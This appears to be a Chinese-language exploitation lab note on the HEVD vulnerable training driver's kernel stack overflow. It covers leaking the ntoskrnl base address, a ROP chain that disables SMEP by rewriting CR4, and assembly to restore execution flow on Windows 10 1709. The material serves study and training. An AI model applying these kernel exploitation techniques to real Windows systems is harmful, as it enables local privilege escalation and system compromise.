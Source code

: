 ## Win7

为了让程序继续正常运行，运行完payload需要进行栈帧平衡。即`BufferOverflowStackIoctlHandler`函数结尾那样。

```assembly
add rsp, 28h
ret
```

## Win10 1709

16299.15.amd64fre.rs3_release.170928-1534

### Get nt base address 

1. EnumDrivers 

   ```c
   LPVOID addresses[1000];
   DWORD needed;
   
   EnumDeviceDrivers(addresses, 1000, &needed);
   
   printf("[+] Address of ntoskrnl.exe: 0x%p\n", addresses[0]);
   ```

2. NtQuerySystemInformation

   ```c
   PUCHAR GetKernelBase()
   {
   	DWORD len;
   	PSYSTEM_MODULE_INFORMATION ModuleInfo;
   	PUCHAR kernelBase = NULL;
   
   	_NtQuerySystemInformation NtQuerySystemInformation = (_NtQuerySystemInformation)
   		GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtQuerySystemInformation");
   	if (NtQuerySystemInformation == NULL) {
   		return NULL;
   	}
   
   	NtQuerySystemInformation(SystemModuleInformation, NULL, 0, &len);
   	ModuleInfo = (PSYSTEM_MODULE_INFORMATION)VirtualAlloc(NULL, len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
   	if (!ModuleInfo)
   	{
   		return NULL;
   	}
   
   	NtQuerySystemInformation(SystemModuleInformation, ModuleInfo, len, &len);
   
   	kernelBase = ModuleInfo->Module[0].ImageBase;
   	VirtualFree(ModuleInfo, 0, MEM_RELEASE);
   
   	return kernelBase;
   }
   ```

   

### ROP bypass SMEP

**gadget1**

```
kd> uf nt!KiConfigureDynamicProcessor
nt!KiConfigureDynamicProcessor:
fffff801`56024ba8 4883ec28        sub     rsp,28h
fffff801`56024bac e89773ffff      call    nt!KiEnableXSave (fffff801`5601bf48)
fffff801`56024bb1 4883c428        add     rsp,28h
fffff801`56024bb5 c3              ret
kd> uf fffff801`5601bf48
... snip ...

nt!KiEnableXSave+0x39b0:
fffff802`2cc318f8 btr     rcx,12h
fffff802`2cc318fd mov     cr4,rcx       // First gadget!
fffff802`2cc31900 ret
kd> ? fffff801`5601f8fd - nt
Evaluate expression: 4323581 = 00000000`0041f8fd
```

**gadget2**

```
kd> uf HvlEndSystemInterrupt
nt!HvlEndSystemInterrupt:
fffff801`55d5fc50 4851            push    rcx
fffff801`55d5fc52 50              push    rax
fffff801`55d5fc53 52              push    rdx
fffff801`55d5fc54 65488b142508620000 mov   rdx,qword ptr gs:[6208h]
fffff801`55d5fc5d b970000040      mov     ecx,40000070h
fffff801`55d5fc62 0fba3200        btr     dword ptr [rdx],0
fffff801`55d5fc66 7206            jb      nt!HvlEndSystemInterrupt+0x1e (fffff801`55d5fc6e)  Branch

nt!HvlEndSystemInterrupt+0x18:
fffff801`55d5fc68 33c0            xor     eax,eax
fffff801`55d5fc6a 8bd0            mov     edx,eax
fffff801`55d5fc6c 0f30            wrmsr

nt!HvlEndSystemInterrupt+0x1e:
fffff801`55d5fc6e 5a              pop     rdx
fffff801`55d5fc6f 58              pop     rax
fffff801`55d5fc70 59              pop     rcx         // Second gadget!
fffff801`55d5fc71 c3              ret

kd> ? fffff801`55d5fc70 - nt
Evaluate expression: 1440880 = 00000000`0015fc70
```

**ROP chain**

```
+------------------+
|pop rcx; ret      |	// nt + 0x15fc70
+------------------+
|value of rcx      |	// ? @cr4 & FFFFFFFF`FFEFFFFF
+------------------+
|mov cr4, rcx; ret |	// nt + 0x41f8fd
+------------------+
|addr of payload   |	// Available from user-mode
+------------------+
```

### Repair execution flow

> - The non-volatile registers are: RBX, RBP, RDI, RSI, RSP, R12, R13, R14, and R15. They must be preserved between function calls
> - The volatile registers are: RAX, RCX, RDX, R8, R9, R10, R11

**尝试直接返回`HEVD!IrpDeviceIoCtlHandler+0x1db`，失败。**

因为不止破坏了返回地址。在`TriggerBufferOverflowStack`函数开始保存了**rbx, rsi, rdi**，在末尾恢复。但在保存的位置已经被ROP的的地址给覆盖了。

逆向发现rbx, rsi, rdi在`IrpDeviceIoCtlHandler`中设置了固定的值，自行恢复好后依旧崩溃。猜测是R12, R14, R15的原因，特别是R14存放了一个地址，在win7那里没有发生问题。

```c
PAGE:FFFFF880064865B4 ; int __fastcall TriggerBufferOverflowStack(void *UserBuffer, unsigned __int64 Size)
PAGE:FFFFF880064865B4 TriggerBufferOverflowStack proc near    ; CODE XREF: BufferOverflowStackIoctlHandler+15↑p
PAGE:FFFFF880064865B4                                         ; DATA XREF: .pdata:FFFFF88006484150↑o
PAGE:FFFFF880064865B4
PAGE:FFFFF880064865B4 var_818         = byte ptr -818h
PAGE:FFFFF880064865B4 var_18          = byte ptr -18h
PAGE:FFFFF880064865B4 arg_0           = qword ptr  8
PAGE:FFFFF880064865B4 arg_8           = qword ptr  10h
PAGE:FFFFF880064865B4 arg_10          = qword ptr  18h
PAGE:FFFFF880064865B4
PAGE:FFFFF880064865B4 ; __unwind { // __C_specific_handler_0
PAGE:FFFFF880064865B4                 mov     [rsp+arg_0], rbx
PAGE:FFFFF880064865B9                 mov     [rsp+arg_8], rsi
PAGE:FFFFF880064865BE                 mov     [rsp+arg_10], rdi
    
   ......snip......
    
PAGE:FFFFF880064866A0 loc_FFFFF880064866A0:                   ; CODE XREF: TriggerBufferOverflowStack+CF↑j
PAGE:FFFFF880064866A0                 mov     eax, ebx
PAGE:FFFFF880064866A2                 lea     r11, [rsp+838h+var_18]
PAGE:FFFFF880064866AA                 mov     rbx, [r11+20h]
PAGE:FFFFF880064866AE                 mov     rsi, [r11+28h]
PAGE:FFFFF880064866B2                 mov     rdi, [r11+30h]
PAGE:FFFFF880064866B6                 mov     rsp, r11
PAGE:FFFFF880064866B9                 pop     r15
PAGE:FFFFF880064866BB                 pop     r14
PAGE:FFFFF880064866BD                 pop     r12
PAGE:FFFFF880064866BF                 retn
```

经过逆向和调试得到下方的恢复代码，与参考的几个exploit都不一样

```assembly
xor rax, rax

xor r12, r12
; xor r14, r14                 ; R14 will be restored in IrpDeviceIoCtlHandler
; xor r15, r15
xor rdi, rdi

add rsp, 10h                   ; Return to IrpDeviceIoCtlHandler
```

## Q&A

1. WinDbg(调试机中的DebugView) 不显示 `DbgPrint` 的信息

   在被调试机中的DebugView程序中，选中Capture->Enable Verbose Kernel Output，两侧就都能显示了。（会打印过多的信息！！...）

2. HEVD 驱动调试符号载入

   添加HEVD.pdb的路径。而后在Debug->Modules中找到并选中HEVD，然后点击reload。关闭该窗口后会显示其执行了如下命令

   ```
   .reload /f @"HEVD.sys"
   ```

## ERROR

ROP bypass SMEP中，设置CR4 为 0x70678，user code 运行中途会触发SMEP保护（目测）。。

设为0x506f8（原值：0x1506f8）即可

## Ref

1. [Kernel Exploit 2: Token Stealing Payload 注解](https://www.abatchy.com/2018/01/kernel-exploitation-2)
2. VS Studio 添加ASM [链接1](http://lallouslab.net/2016/01/11/introduction-to-writing-x64-assembly-in-visual-studio/) [链接2](https://zhuanlan.zhihu.com/p/31918676)
3. [HEVD Window Kernel Exploit 01 - StackOverflow](https://www.anquanke.com/post/id/218682)
4. [Windows内核漏洞学习之栈溢出-hevd第一篇](https://github.com/xinali/articles/issues/66)
5. [Kernel Exploit 4: Stack Overflow (bypass SMEP)](https://www.abatchy.com/2018/01/kernel-exploitation-4)
6. [SMEP: What is it, and how to beat it on Windows](https://j00ru.vexillium.org/2011/06/smep-what-is-it-and-how-to-beat-it-on-windows/)

